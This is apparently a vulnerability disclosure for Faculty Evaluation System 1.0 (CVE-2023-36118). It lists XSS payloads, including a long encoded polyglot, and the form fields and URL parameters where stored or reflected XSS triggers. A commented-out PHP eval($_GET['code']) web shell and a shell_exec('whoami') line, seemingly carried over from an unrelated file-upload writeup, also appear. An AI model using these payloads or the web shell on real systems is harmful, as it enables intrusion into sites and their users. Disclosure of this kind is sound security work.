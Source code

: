 # Faculty Evaluation System 1.0

+ Vendor Homepage: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html
+ EXPLOIT-AUTHOR : Noflag(CHT Security)
+ Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/eval_2.zip
+ Tested on: XAMPP + win10
+ XSS vuln
+ CVE ID: CVE-2023-36118
+ CVSS v3.1 `AV:L/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:L/E:F/RL:W/RC:R/CR:L/IR:L/AR:L/MAV:L/MAC:L/MPR:H/MUI:R/MS:U/MC:L/MI:L/MA:L`
+ https://www.chtsecurity.com/news/4ffbe017-70e1-4789-bfe6-4d6fb0d1a0b7
+ https://www.chtsecurity.com/news/5282e0af-7c45-43b0-9869-9becee7d6d70

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/185ff8b6-5953-4219-9ef9-ab9f655ec5f3)

<!--
First, create a simple PHP script to trigger the vulnerability. The following PHP code will utilize the GET parameter and execute it through the eval() function:
 
**The $_GET[""] is passed to the eval() function, which means that the string will be interpreted as valid PHP code and executed. It allows the attacker to execute arbitrary PHP code.**

```php
<?php $code = $_GET['code'];
eval($code); ?>
```

When you see this page, you will know that the program has executed successfully. It seems that other tests can be performed.

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/7dbac24e-7e55-4050-8014-0b1ab115f15c)

+ echo shell_exec('whoami');  -->

![](https://hackmd.io/_uploads/B1KnDvgw2.png)

After pressing Set for each option
![](https://hackmd.io/_uploads/r1WcdDgw3.png)

stored xss
Entering the payload in the bottom box of most projects will trigger ->

I will write the details of the affected part at the end

[xss payload](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)
```
<script>alert(1)</script>
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
....

```

![](https://hackmd.io/_uploads/B1J2Dtlvn.png)
![](https://hackmd.io/_uploads/SyKpwFevh.png)

![](https://hackmd.io/_uploads/ByG2_Pevn.png)
![](https://hackmd.io/_uploads/Bys_b_lP2.png)
![](https://hackmd.io/_uploads/H1ysROxP3.png)


More interesting is this payload

```
xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E%22%3E%3Cimg/id=%22confirm&lpar;%20OPENBUGBOUNTY)%22/alt=%22/%22src=%22/%22onerror=eval(id&%23x29;%3E%27%22%3E%3Cimg%20src=%22http:%20www.openbugbounty.org/images/design/openbugbounty-logo.png%22%3E%20%EF%BF%BC&show;=xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/s
```
![](https://hackmd.io/_uploads/HyAyXOeP2.png)

Stored xss will cause
xss is triggered every time the page is visited

Affected vulnerable blocks:
```
On the page http://localhost/eval/, under "Manage Account," if an XSS payload is entered in the "First Name" and "Last Name" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=, after entering a reflected XSS payload in the "page=" parameter, it can trigger an attack.

On the page http://localhost/eval/index.php?page=subject_list, under the "Manage subject" setting in the "Action" section, if an XSS payload is entered in the "Description" and "Subject" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=class_list, under the "Manage class" setting in the "Action" section, if an XSS payload is entered in any of the fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=academic_list, under the "Manage" setting in the "Action" section, if an XSS payload is entered in the "Year" field, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=questionnaire, under the "Manage" setting in the "Action" section, in the "Question" field at the bottom of the page, if an XSS payload is entered, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=criteria_list, in the "Criteria" field, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=faculty_list, after clicking "Edit" in the "Action" column, on the page http://localhost/eval/index.php?page=edit_faculty&id=, under the "Edit Faculty" section, if an XSS payload is entered in the "School ID," "First Name," and "Last Name" fields, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=student_list, after clicking "Edit" in the "Action" column, on the respective page, in the "School ID," "First Name," and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=user_list, after clicking "Edit" in the "Action" column, on the respective page, in the "First Name" and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.
```
